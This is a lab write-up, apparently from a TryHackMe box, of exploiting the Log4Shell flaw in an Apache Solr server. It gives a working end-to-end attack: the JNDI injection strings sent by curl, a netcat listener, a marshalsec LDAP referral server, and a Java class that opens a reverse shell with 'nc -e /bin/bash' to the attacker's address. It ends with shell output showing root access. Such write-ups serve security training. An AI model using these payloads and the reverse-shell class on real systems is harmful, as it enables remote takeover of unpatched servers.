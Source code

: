 # Log4j - Exploiting a Vulnerable Apache Solar Server


### Enumerating and Analyzing target
Dashboard can seen on admin front page when navigating to the victim's web server - lots of info here.
Verify that log4j in use for logging via nmap scan (all ports) - note info on dashboard as well.
If identified as vulnerable from recon, the exploit is possible, else the rest of this report is null.

Note log directory...
```-Dsolr.log.dir```

### In logs, find an entry point 

INFO entries with repeated endpoint requests -> parameter field

### Parameter will be used as the attack vector, with payload passed as a parameter

``` ${jndi:ldap://ATTACKERADDRESS} ```

Using JNDI to allow for external resource lookup, ATTACKERADDRESS will be a listener on the kali machine.

a basic listener that will be employed
```$ nc -lnvp 4444```

## Remote Code Execution - Injection
 - Log4j processes logs by parsing entries, but may EXECUTE code in entry 
 - Any data logged is vulnerable --- we have identified one entry point from the logs earlier
  - Entry poiunt can also include forms/any source of user supplied data HTTP headers, 

Putting things together, here is an example of a maliciously crafted curl request:

```$ curl 'http://10.10.22.239:8983/solr/admin/cores?foo=$\{10.9.1.93:4444\}'```

This payload will be delivered and executed by Log4j during parsing...
```sh
┌──(kali㉿kali)-[~]
└─$ curl 'http://10.10.22.239:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.1.93:4444\}' 
{
  "responseHeader":{
    "status":0,
    "QTime":0},
  "initFailures":{},
  "status":{}}
  ```
  
Did the injection work for connnecting back to our machine??

```sh
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444     
listening on [any] 4444 ...
connect to [10.9.1.93] from (UNKNOWN) [10.10.22.239] 50884
0
 `�

```
It worked :D but what can we do with this, what are those weird characters??? 

## Exploitation 

We can run a referral server to redirect from LDAP to another location containing our desired payload.

### Need http server to host some files on our machine that contain the good stuff (like a stage) ;)
```python python3 -m http.server```

### Need the LDAP referral server to redirect to the HTTP server where the stager resides

Ensure marshalsec is installed via ```mvn clean package -DskipTests``` after cloning the marshalsec git repository https://github.com/mbechler/marshalsec
There may be support for newer Java verisons, but marshalsec is originally developed to be used with the Java8 JDK (8u181), found at https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html

Below we start up the refserver on our local system (this server waits for a connection, and then serves the redirect to whatever exploit we have)
```sh
┌──(kali㉿kali)-[/tmp/marshalsec]
└─$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.1.93:8000/[EXPLOITHERE].java"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```
The refserver listens on 1389 by default (LDAP) and then forwards to 8000

Notice the .java ? Any payload going through Log2j will be executed as Java code...

## Now we have the meat of this RCE exploit: remotely executing arbitrary code of any Java file, malicious or not.

Create a .java file in your favorite IDE or text editor with the same name as [EXPLOITHERE]:

```java

public class NotSus{

	static{
		try{
			java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.9.1.93 4444"); // reverse shell connects back to us
		}
		catch(Exception e){
			;        // no unnecessary noise if anything goes wrong
		}
	}

}
```
Here is a simple reverse shell java class for the payload

Compile: 
```sh 
$javac NotSus.java

```


# Put things together, we start setting up the delivery of a staged payload...

In separate terminals:

file server with the payload - just hosting the current directory on pt 8000
```sh
┌──(kali㉿kali)-[~/Documents]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

listen for incoming connections from the victim - keep an eye on this ;)
```sh
┌──(kali㉿kali)-[/tmp/marshalsec]
└─$ nc -lnvp 4444                
listening on [any] 4444 ...

```
rfserver that the victim will connect back to, traffic forwarded to the python file server for the Java payload
```sh
┌──(kali㉿kali)-[/tmp/marshalsec]
└─$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.1.93:8000/[EXPLOITHERE].java"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```

# HELLO COMPUTER, YOU HAVE A DELIVERY!! ;)) 
### The crafted GET request to the endpoint that is logging - go ahead and send it!!!!!!
```sh
┌──(kali㉿kali)-[~]
└─$ curl 'http://10.10.22.239:8983/solr/admin/cores?pwn=$\{jndi:ldap://10.9.1.93:1389/NotSus\}' 
{
  "responseHeader":{
    "status":0,
    "QTime":0},
  "initFailures":{},
  "status":{}}
```


### nc listener - type a command and notice that we have gained full control, and can remotely do anything with our shell access
### the listener isn't the prettiest so consider sending a different payload or execute whatever java code you want

```sh
$ nc -lnvp...
listening on [any] 4444 ...
connect to [10.9.1.93] from (UNKNOWN) [10.10.22.239] 50930

whoami
solr
sudo su

whoami
root

```


## As always, from here are ways to establish persistence and C2 presence.
## Plz don't be lazy and audit your systems and commit to regular vulnerability management, this vulnerability has been disclosed for over a week now and machines EVERYWHERE are still being exploited >:(





Special thanks to John Hammond for making this simpler to understand (as always), and TryHackMe for providing the box



